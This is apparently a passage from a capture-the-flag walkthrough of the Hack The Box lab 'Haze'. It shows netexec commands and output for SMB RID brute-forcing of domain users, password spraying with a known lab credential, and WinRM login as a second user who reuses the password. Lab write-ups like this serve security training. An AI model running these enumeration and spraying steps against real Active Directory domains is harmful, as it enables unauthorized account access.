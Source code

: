 ***
Creds:
paul.taylor: Ld@p_Auth_Sp1unk@2k24
***
## User
dump all users

```bash
➜  Haze netexec smb haze.htb -u paul.taylor -p  Ld@p_Auth_Sp1unk@2k24 --rid-brute | grep -i "SidTypeUser" | awk -F'(' '{print $1}' | awk -F'\' '{print $2}' | tee users
Administrator 
Guest 
krbtgt 
DC01$ 
paul.taylor 
mark.adams 
edward.martin 
alexander.green 
Haze-IT-Backup$ 
```
now we could password spray all the users to see if there is password reuse with another useraccount

```bash
➜  Haze netexec smb haze.htb -u users -p  Ld@p_Auth_Sp1unk@2k24 --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
```
and indeed mark.adams also uses the same password we could also winrm with this account
```
➜  Haze netexec winrm haze.htb -u mark.adams -p  Ld@p_Auth_Sp1unk@2k24                      
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```
